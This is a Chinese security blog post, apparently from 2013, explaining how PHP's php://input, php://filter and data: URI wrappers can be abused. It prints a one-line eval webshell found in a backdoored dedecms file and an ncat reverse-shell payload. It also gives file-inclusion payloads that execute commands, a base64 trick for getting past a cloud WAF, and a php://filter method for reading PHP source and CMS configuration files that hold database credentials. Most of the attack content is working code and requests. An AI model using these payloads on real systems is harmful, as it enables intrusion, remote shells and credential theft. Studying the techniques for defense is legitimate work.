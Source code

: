 ## php://input，php://filter，data URI schema的那些事 

 [碳基体][0]  

 2013-10-15  

 **一、php://input一句话木马**

 在调研dedecms的历史漏洞时，发现了dedecms安装文件曾经出过被植入后门的漏洞（[SSV-ID][2]站点include目录下shopcar.class.php文件被植入一句话木马）

    @eval(file_get_contents('php://input'))

我是个十足的php菜鸟，只有用到的时候才会去查查语法书，对php://input也只是有点印象而已，于是用脚本phpinput.php,配合firefox Hackbar插件测试了一下php://input的功能。 

    <?php
    $data=file_get_contents('php://input');
    echo $data."<br/>";
    //@eval(file_get_contents('php://input'))
    ?>

 发现php://input是用来接收post数据（这里有[php://input][3]的介绍）

[![](./img/20131014231728_30225.jpg)](./img/20131014231728_30225.jpg)

注释掉phpinput.php的打印语句 

    <?php @eval(file_get_contents('php://input'))?>

使用firefox的hackbar提交上图显示的post data： 

    system('ncat -e /bin/bash localhost 1234');

 测试了一下nc反弹shell的利用，成功

[![](./img/20131014231830_42766.jpg)](./img/20131014231830_42766.jpg)

看来，只要构造了合适的POST数据，就能达到getshell的目的。 

**二、php://input将文件包含漏洞变成代码执行漏洞**  
顿时觉得php://input好神奇，于是进一步搜索它还能发挥哪些作用。 

在这里感谢Casperkid大牛的文章《[php LFI读php文件源码以及直接post webshell][4]》，我才知道文件包含可以这样深入。 

接下来，演示TA是如何将文件包含漏洞转变成代码执行的漏洞。方法参考[LFI exploitation via php://input][5]

首先看一段存在文件包含漏洞的代码 

    <?php @include($_GET["file"])?>

[![](./img/20131014232030_75994.jpg)](./img/20131014232030_75994.jpg)

 我们使用php://input，将执行代码通过Firefox 的hackbar 在POST data中提交

    <?php system('ifconfig');?>

 看，文件包含漏洞变成代码执行漏洞了

[![](./img/20131014232111_21648.jpg)](./img/20131014232111_21648.jpg)

**三、data URI schema将文件包含漏洞变成代码执行漏洞并绕过360网站卫士的WAF**

那还有哪些办法，可以同样做到代码执行呢，Casperkid大牛的文章中提到，[data URI schema][6]的使用就可以达到这样的效果。  
data URI schema，我曾经在做钓鱼的练习中，将攻击代码生成这种格式并配合短地址转换来生成恶意url，见《[利用iframe URI钓][7]鱼》，但没想到可以用在文件包含漏洞中。 

接下来演示如何实施。 

在实施的时候，我突然想到，文件包含漏洞，在读取php文件时，是不能显示文件内容的。  
而很多情况，我们是急需读取PHP格式的配置文件，例如 

    dedecms数据库配置文件data/common.inc.php,
    discuz全局配置文件config/config_global.php,
    phpcms配置文件caches/configs/database.php
    phpwind配置文件conf/database.php
    wordpress配置文件wp-config.php

以便下一步渗透测试 

于是我写了一段读取指定文件FileInclude.php的代码 

    <?php system('cat /var/www/FileInclude.php')?>

 然后将攻击代码转化成data:URI，

    data:text/plain,<?php system('cat /var/www/FileInclude.php')?>

 运行，如下

[![](./img/20131014232304_88906.jpg)](./img/20131014232304_88906.jpg)

注意，我们看到转化后的GET请求的参数中包含<?的标记，在遇到有些WAF，包括云WAF（例如360网站卫士），就会将其视为攻击代码，阻挡下来。于是我们需要做一下编码处理 

    data:text/plain;base64,［攻击代码的base64编码］

 运行，如下

[![](./img/20131014232343_79657.jpg)](./img/20131014232343_79657.jpg)

**四、php://filter在文件包含漏洞中的利用——读取php文件源码内容**  
经过上面的操作，我们知道php://input与data:URI schema可以将文件包含漏洞变成代码执行漏洞从而getshell。接下来看看php://input的好基友php://filter能做什么呢 

参考[LFI’s Exploitation Techniques][8],我们可以采用[php://filter][9]以base64编码的方式读取指定文件的内容： 

    php://filter/read=convert.base64-encode/resource=［文件路径］

 下面演示通过php://filter读取本包含漏洞脚本的源码

[![](./img/20131014232449_67904.jpg)](./img/20131014232449_67904.jpg)

 接下来只要将base64编码后的字符串通过base64解码就可得到PHP文件的源码了

[![](./img/20131014232502_90068.jpg)](./img/20131014232502_90068.jpg)

**参考：**  
http://ddxhunter.wordpress.com/2010/03/10/lfis-exploitation-techniques/  
http://zerofreak.blogspot.jp/2012/04/lfi-exploitation-via-phpinput-shelling.html  
http://hi.baidu.com/qingsh4n/item/92ffa87281e7ee226cc37cc7  
http://hi.baidu.com/casperkid/item/2baf952b13a9cd0e76272cb0

http://www.php.net/manual/zh/wrappers.php.php

[0]: http://www.freebuf.com/author/%e7%a2%b3%e5%9f%ba%e4%bd%93
[1]: http://www.freebuf.com/./articles/web
[2]: http://sebug.net/vuldb/ssvid-30207
[3]: http://php.net/manual/zh/wrappers.php.php
[4]: http://hi.baidu.com/casperkid/item/2baf952b13a9cd0e76272cb0
[5]: http://zerofreak.blogspot.jp/2012/04/lfi-exploitation-via-phpinput-shelling.html
[6]: http://en.wikipedia.org/wiki/Data_URI_scheme
[7]: http://danqingdani.blog.163.com/blog/static/186094195201332723950108/
[8]: http://ddxhunter.wordpress.com/2010/03/10/lfis-exploitation-techniques/
[9]: http://www.php.net/manual/zh/wrappers.php.php